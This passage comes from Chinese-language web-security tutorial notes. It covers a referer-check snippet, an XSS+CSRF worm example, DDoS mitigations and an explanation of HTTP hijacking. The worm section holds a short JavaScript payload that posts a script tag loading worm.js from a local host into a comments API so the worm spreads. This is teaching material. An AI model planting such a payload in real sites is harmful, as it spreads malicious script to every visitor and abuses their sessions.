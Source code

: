 ```js
        res.json({ code: 1, error: '用户没有登录' });
    }
    //} else {
    res.json({ code: 1, error: 'referer不正确' });
    //}
})
```

#### 2.2.4 xss+csrf(蠕虫)

不断传播的xss+csrf攻击 worm.js

```js
const attack = '<script src="http://localhost:3001/worm.js"></script>';
$.post('/api/comments', { content: 'haha' + attack });
```

## 3. DDOS攻击

分布式拒绝服务(Distribute Denial Of Service)

- 黑客控制大量的肉鸡向受害主机发送非正常请求，导致目标主机耗尽资源不能为合法用户提供服务
- 验证码是我们在互联网十分常见的技术之一。不得不说验证码是能够有效地防止多次重复请求的行为。
- 限制请求频率是我们最常见的针对 DDOS 攻击的防御措施。其原理为设置每个客户端的请求频率的限制
- 增加机器增加服务带宽。只要超过了攻击流量便可以避免服务瘫痪
- 设置自己的业务为分布式服务，防止单点失效
- 使用主流云系统和 CDN（云和 CDN 其自身有 DDOS 的防范作用）
- 优化资源使用提高 web server 的负载能力

## 4. HTTP劫持

- 在用户的客户端与其要访问的服务器经过网络协议协调后，二者之间建立了一条专用的数据通道，用户端程序在系统中开放指定网络端口用于接收数据报文，服务器端将全部数据按指定网络协议规则进行分解打包，形成连续数据报文。
- 用户端接收到全部报文后，按照协议标准来解包组合获得完整的网络数据。其中传输过程中的每一个数据包都有特定的标签，表示其来源、携带的数据属性以及要到何处，所有的数据包经过网络路径中ISP的路由器传输接力后，最终到达目的地，也就是客户端。
- HTTP劫持是在使用者与其目的网络服务所建立的专用数据通道中，监视特定数据信息，提示当满足设定的条件时，就会在正常的数据流中插入精心设计的网络数据报文，目的是让用户端程序解释“错误”的数据，并以弹出新窗口的形式在使用者界面展示宣传性广告或者直接显示某网站的内容。

## 参考

- [zf-safe](https://gitee.com/zhufengpeixun/zf-safe)

